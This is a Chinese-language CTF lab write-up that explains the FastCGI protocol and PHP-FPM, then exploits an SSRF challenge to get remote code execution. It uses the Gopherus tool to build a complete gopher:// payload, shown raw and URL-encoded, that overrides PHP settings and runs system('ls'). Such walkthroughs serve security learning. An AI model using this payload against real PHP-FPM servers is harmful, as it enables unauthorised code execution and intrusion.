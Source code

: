 ### FastCGI 协议 RCE

话不多说，直接上题（CTFHUB）

![](https://pic1.imgdb.cn/item/687f45ee58cb8da5c8cb212f.png)

**1️⃣ FastCGI 简介**

FastCGI 是一种通用网关接口（CGI）的改进版本，旨在解决传统 CGI 存在的性能问题

传统  CGI  每次请求都会创建一个新的进程，处理完请求后销毁，极大浪费系统资源

而 FastCGI 通过长连接与进程复用机制，显著提高了性能

FastCGI 通常用于：

- Web 服务器（如 Nginx、Apache）与后端应用（如 PHP-FPM）之间的通信
- 保持后端服务进程常驻，提高高并发下的性能

**2️⃣ FastCGI 架构概览**

通信双方：

- Web 服务器：客户端请求入口，如 Nginx
- FastCGI 应用程序：通常是 PHP-FPM 或其他应用服务器

工作流程：

```css
[客户端浏览器] 
     ↓
[Web 服务器 (如 Nginx)]  ——TCP/Unix Socket——>  [FastCGI 后端 (如 PHP-FPM)]
```

- Web 服务器把请求封装成 FastCGI 协议格式，通过 Socket 发给 FastCGI 进程
- FastCGI 进程解析请求，执行后端逻辑，返回响应数据
- Web 服务器再将结果返还给客户端

**3️⃣ FastCGI 协议结构**

数据传输的基本单位：Record（记录）

每个 Record 有固定头部格式和可变长度的数据部分。

Record Header（8 字节）结构：

| 字段          | 大小（字节） | 说明                     |
| ------------- | ------------ | ------------------------ |
| Version       | 1            | FastCGI 版本，通常是 `1` |
| Type          | 1            | 记录类型（见下表）       |
| RequestId     | 2            | 请求 ID（用于多路复用）  |
| ContentLength | 2            | 内容长度                 |
| PaddingLength | 1            | 填充字节长度（用于对齐） |
| Reserved      | 1            | 保留，通常为 `0`         |

常见 Type 类型：

| 类型名             | 值   | 说明                         |
| ------------------ | ---- | ---------------------------- |
| FCGI_BEGIN_REQUEST | 1    | 表示开始一个请求             |
| FCGI_ABORT_REQUEST | 2    | 表示中断请求                 |
| FCGI_END_REQUEST   | 3    | 表示请求结束                 |
| FCGI_PARAMS        | 4    | 发送请求的环境变量           |
| FCGI_STDIN         | 5    | 发送请求主体（如 POST 数据） |
| FCGI_STDOUT        | 6    | 标准输出（返回内容）         |
| FCGI_STDERR        | 7    | 标准错误（返回错误信息）     |
| FCGI_DATA          | 8    | 补充数据（很少用）           |

**4️⃣ 通信过程详细步骤**

一次 HTTP 请求通常包含以下 FastCGI Record：

```sh
① FCGI_BEGIN_REQUEST        # 开始请求
② FCGI_PARAMS (多次)         # 环境变量（如 PATH_INFO、QUERY_STRING 等）
③ FCGI_PARAMS (空)           # 空表示结束
④ FCGI_STDIN (可能多次)      # 请求体，如 POST 数据
⑤ FCGI_STDIN (空)            # 空表示结束
----------------------------
⑥ FCGI_STDOUT (返回内容)
⑦ FCGI_STDERR (错误信息)
⑧ FCGI_END_REQUEST           # 通知请求结束
```

**5️⃣ 请求示例（伪过程）**

```http
客户端发起 HTTP 请求：GET /index.php?id=1

Nginx 生成 FastCGI 请求：
1️⃣ 发送 BEGIN_REQUEST
2️⃣ 发送 PARAMS（SCRIPT_FILENAME, QUERY_STRING 等）
3️⃣ 发送空 PARAMS
4️⃣ （GET 没有 STDIN）
5️⃣ 等待 FastCGI 返回数据
```

FastCGI 返回：

- STDOUT: 输出 HTML 内容
- STDERR: 错误日志（如果有）
- END_REQUEST: 请求结束

**6️⃣ PHP-FPM 简介**

PHP-FPM 是专门为 **PHP 提供更高效、更稳定的进程管理机制的 FastCGI 实现**，常用于配合 Nginx 部署 PHP 网站

```
浏览器请求 --> Nginx --> PHP-FPM --> PHP 脚本执行 --> 返回结果
```

**7️⃣攻击原理**

```lua
+----------------------+
|   攻击者发起请求     |
+----------------------+
            |
            v
+----------------------------------+
| PHP-FPM 端口 9000 是否暴露公网？    |
+----------------------------------+
      |                      |
      | 是                   | 否
      v                      v
+------------------+   +-------------------+
|  直接构造 FastCGI|   |  SSRF 访问 127.0.0.1|
|   数据包攻击FPM  |   |   请求 FastCGI 端口  |
+------------------+   +-------------------+
      |                      |
      +----------+-----------+
                 v
       +----------------------------+
       |   SCRIPT_FILENAME 参数控制  |
       +----------------------------+
                 |
     +-----------------------------+
     |  文件后缀是否受限制？        |
     +-----------------------------+
         |                    |
         | 老版本，不受限       | 新版本，仅限 .php
         v                    v
+----------------+     +---------------------+
| 任意文件可利用 |     | 只能利用已有 .php 文件 |
+----------------+     +---------------------+
         |                    |
         v                    v
+--------------------+  +----------------------+
| 可读取 /etc/passwd |  | 执行指定 PHP 脚本，      |
| 或其他任意文件     |  | 达成远程代码执行       |
+--------------------+  +----------------------+
```

本文要利用一个脚本 [gopherus.py](https://github.com/tarunkant/Gopherus/tree/master)，这个脚本可以对 SSRF 漏洞进行利用，可以直接生成 payload 造成远程代码执行 RCE

```sh
┌──(kali㉿kali)-[~/Gopherus]
└─$ python2 gopherus.py -h                                                             
usage: gopherus.py [-h] [--exploit EXPLOIT]

optional arguments:
  -h, --help         show this help message and exit
  --exploit EXPLOIT  mysql, postgresql, fastcgi, redis, smtp, zabbix,
                     pymemcache, rbmemcache, phpmemcache, dmpmemcache
```

我们选择 fastcgi 的

```sh
python2 gopherus.py --exploit fastcgi
```

![](https://pic1.imgdb.cn/item/687f54a658cb8da5c8cb5640.png)

然后输入 `/var/www/index.php`，运行一下 ls

![](https://pic1.imgdb.cn/item/687f55a658cb8da5c8cb579a.png)

得到 payload

![](https://pic1.imgdb.cn/item/687f55c758cb8da5c8cb57bf.png)

```http
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%04%04%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH54%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%006%04%00%3C%3Fphp%20system%28%27ls%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```

再做一次 URL 编码（因为走的是 `?url`）

```http
gopher%3A%2F%2F127.0.0.1%3A9000%2F_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2504%2504%2500%250F%2510SERVER_SOFTWAREgo%2520%2F%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP%2F1.1%250E%2502CONTENT_LENGTH54%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%2520%253D%2520On%250Adisable_functions%2520%253D%2520%250Aauto_prepend_file%2520%253D%2520php%253A%2F%2Finput%250F%2517SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Findex.php%250D%2501DOCUMENT_ROOT%2F%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%25006%2504%2500%253C%253Fphp%2520system%2528%2527ls%2527%2529%253Bdie%2528%2527-----Made-by-SpyD3r-----%250A%2527%2529%253B%253F%253E%2500%2500%2500%2500
```

可以看到有个 `index.php`

![](https://pic1.imgdb.cn/item/687f5ca658cb8da5c8cb5fee.png)

重新跑一下脚本拿 flag

![](https://pic1.imgdb.cn/item/687f5d1e58cb8da5c8cb6017.png)

成功拿到 flag

![](https://pic1.imgdb.cn/item/687f5e2858cb8da5c8cb609a.png)
